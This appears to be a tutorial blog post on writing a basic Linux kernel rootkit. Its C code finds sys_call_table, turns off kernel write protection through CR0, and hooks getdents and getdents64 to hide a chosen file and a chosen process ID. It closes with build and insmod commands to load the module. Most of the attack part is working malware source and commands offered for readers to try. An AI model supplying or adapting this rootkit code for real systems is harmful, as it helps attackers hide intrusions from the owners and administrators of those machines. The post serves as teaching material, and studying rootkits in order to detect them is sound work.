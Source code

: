 ```yaml
---
layout: post
title: "Linux Kernel Rootkit Basics"
author: "Grant"
tags: [hypervisor, stack-smashing, buffer overflow, security, kernel, linux]
---
```


# Rootkits
<hr>

Rootkits are an advanced form of malware that leverage elevated privileges to hide themselves from the operating system. In this post we will go over how to write a basic rootkit that is capable of hiding files and processes on Linux.

# Listing files in a directory

Let's look at a simple C program that can list files in a directory.

```c
#include <stdio.h>
#include <dirent.h>

int main() {
	DIR *d = opendir(".");
	struct dirent *dire;
	while ((dire = readdir(d)) != NULL) {
		printf("%s\n", dire->d_name);
	}
	closedir(d);
}
```

We can see that the `readdir()` function is called to get the files in a folder, however we're interested in going as low-level as possible to see what we need to hook in the kernel to manipulate the listed files for all programs. A good way of doing this is to use the `strace` tool to log all of the syscalls a program invokes.

```bash
$ strace./a.out
munmap(0x7fa11faa0000, 133984)          = 0
openat(AT_FDCWD, ".", O_RDONLY|O_NONBLOCK|O_CLOEXEC|O_DIRECTORY) = 3
fstat(3, {st_mode=S_IFDIR|S_ISVTX|0777, st_size=12288, ...}) = 0
brk(NULL)                               = 0x55ce40037000
brk(0x55ce40058000)                     = 0x55ce40058000
getdents(3, /* 28 entries */, 32768)    = 1376
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 4), ...}) = 0
write(1, ".\n", 2.)                      = 2
write(1, "..\n", 3..)                     = 3
```

Several syscalls are invoked by our program and right before we start seeing some recognized files printed out (".", ".."), `getdents()` is called. This is the syscall
that is used to get directory entries on Linux and therefore is what we want to hook to hide files.

# Hooking Syscalls
<hr>

## Syscall Table
In Linux, there is an [array in the kernel that contains pointers to all of the syscalls.](https://elixir.bootlin.com/linux/v5.5.7/source/arch/x86/entry/syscall_64.c#L27)

`asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1]`

The index into this array corresponds to the syscall number which you can [look up here](https://syscalls.kernelgrok.com/). Because of this, it is quite easy to hook a syscall function as we simply need to replace the function pointer for that syscall number to point to a function we define.

```c
// Pointer to sys_call_table in memory
static unsigned long *syscall_table = (unsigned long *)0xdeadbeef;
syscall_table[__NR_getdents] = hooked_getdents;
```

## Modifying Syscall Table

Since the memory region of the kernel containing the `sys_call_table` pointer is marked read-only, we can't modify it (even as ring 0) without first changing the permissions. To do this, we have to toggle the [WP bit (bit 16) in the CR0 register](https://en.wikipedia.org/wiki/Control_register#CR0).

```c
write_cr0(read_cr0() & (~ 0x10000)); //Enable write access
write_cr0(read_cr0() | 0x10000); //Restore write protection
```

## Getting The Address 

Finally, we need to get the address of the `sys_call_table` array inside the kernel. There are numerous ways to do this, but we will use a simple one below.

The `/proc/kallsyms` file contains a mapping of kernel symbols to addresses and thankfully includes the `sys_call_table` symbol we are interested in. We can see that in our instance,
it is located at `0xffffffff9fe00240`.

 **Note**: this will change across systems and even reboots as the kernel memory map is randomized for security reasons.

```bash
vagrant@ubuntu-bionic:~$ sudo cat /proc/kallsyms  | grep sys_call_table
ffffffff9fe00240 R sys_call_table
ffffffff9fe01600 R ia32_sys_call_table
```

Another, and perhaps easier way, is to use the `kallsyms_lookup_name()` function which returns a pointer to the symbol passed as a parameter. We can find the address of `sys_call_table` with the following code:

```c
unsigned long table = (unsigned long *) kallsyms_lookup_name("sys_call_table");
```

## Putting it all together

Combining the steps above, in order to hook a syscall the steps will be roughly as follows:

1. Get the address of the `sys_call_table` pointer
2. Allow write access to kernel memory
3. Hook syscall function
4. Restore write protection to kernel memory


# Hiding Files
<hr>

As we saw above, the `getdents()` and `getdents64()` syscalls are used to get the the files in a directory, so we will want to hook these to hide files.

```c
unsigned long table = (unsigned long *) kallsyms_lookup_name("sys_call_table"); //Lookup table entry point
write_cr0(read_cr0() & (~ 0x10000)); //Enable write access
original_getdents = (void*)table[__NR_getdents];
original_getdents64 = (void*)table[__NR_getdents64];

table[__NR_getdents] = (unsigned long) my_getdents; //Hook getdents with our function
table[__NR_getdents64] = (unsigned long) my_getdents64;
write_cr0(read_cr0() | 0x10000); //Restore write protection
```

Now we will define our own function that implements `getdents()` and hides the file `secret.txt` by removing it from the list of files.

```c
asmlinkage int my_getdents(unsigned int fd, struct linux_dirent* dirp, 
	unsigned int count)
{
  int ret;
  struct linux_dirent* cur = dirp;
  int pos = 0;

  // Call original getdents
  ret = original_getdents(fd, dirp, count); 
  while (pos < ret) {

    if (is_prefix(cur->d_name, "secret.txt")) { // Insert your check here
      // Remove hidden file from list
      int reclen = cur->d_reclen;
      char* next_rec = (char*)cur + reclen;
      int len = (int)dirp + ret - (int)next_rec;
      memmove(cur, next_rec, len);
      ret -= reclen;
      continue;
    }
    pos += cur->d_reclen;
    cur = (struct linux_dirent*) ((char*)dirp + pos);
  }
  return ret;
}
```

# Hiding Processes
<hr>
On Linux, process information is stored in the `/proc/{pid}` folder and tools like `ps` read these entries to report on what processes are running. Since we already know how to hide files, all we need to do is hide the file that is the entry inside the `/proc` folder and it will not show up when `ps` is called!

The quickest way to do this is substitute the filename check from above with the PID:

```c
if (is_prefix(cur->d_name, "5048")) { // Insert your PID here
      // Remove hidden file from list
      int reclen = cur->d_reclen;
      char* next_rec = (char*)cur + reclen;
      int len = (int)dirp + ret - (int)next_rec;
      memmove(cur, next_rec, len);
      ret -= reclen;
      continue;
}
```

However this might hide some other files unintentionally, so it might be wise to check the full path.
# Demo
<hr>
Try it yourself!

```bash
vagrant init gfoudree/rootkit-dev --box-version 1
vagrant up
vagrant ssh
```

Now build and install the kernel module:

```bash
make
sudo insmod file_hider.ko
```

You should now notice that `secret.txt` is missing from the files in the current directory. Remove the kernel module `sudo rmmod file_hider` and observe that it appears again.